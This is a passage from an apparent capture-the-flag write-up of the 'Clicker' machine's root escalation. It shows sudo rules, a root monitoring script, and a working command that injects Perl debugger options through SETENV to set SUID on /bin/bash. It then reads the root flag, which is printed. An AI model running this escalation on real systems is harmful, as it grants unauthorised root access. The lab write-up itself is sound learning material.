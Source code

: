 ```
$ sudo -l
Matching Defaults entries for jack on clicker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User jack may run the following commands on clicker:
    (ALL : ALL) ALL
    (root) SETENV: NOPASSWD: /opt/monitor.sh
```

Looking at the contents of `/opt/monitor.sh` we see this:

```sh
#!/bin/bash
if [ "$EUID" -ne 0 ]
  then echo "Error, please run as root"
  exit
fi

set PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
unset PERL5LIB;
unset PERLLIB;

data=$(/usr/bin/curl -s http://clicker.htb/diagnostic.php?token=secret_diagnostic_token);
/usr/bin/xml_pp <<< $data;
if [[ $NOSAVE == "true" ]]; then
    exit;
else
    timestamp=$(/usr/bin/date +%s)
    /usr/bin/echo $data > /root/diagnostic_files/diagnostic_${timestamp}.xml
fi
```

Looking at `PERL5LIB` being unset, and looking inside `/usr/bin/xml_pp`, I assume this is vulnerable to [CVE-2016-1531](https://github.com/0xsyr0/OSCP#cve-2016-1531-exim-lpe)

As we can't write any files to the directory, we can do it by setting a SUID to `/bin/bash`

```
$ sudo PERL5OPT=-d PERL5DB='exec "chmod u+s /bin/bash"' /opt/monitor.sh
Statement unlikely to be reached at /usr/bin/xml_pp line 9.
	(Maybe you meant system() when you said exec()?)
$ /bin/bash -p
$ cat /root/root.txt
59e97b75b4b6daac788914d2ece50c4c
```

And there's the root flag! <mark>59e97b75b4b6daac788914d2ece50c4c</mark>


Success!
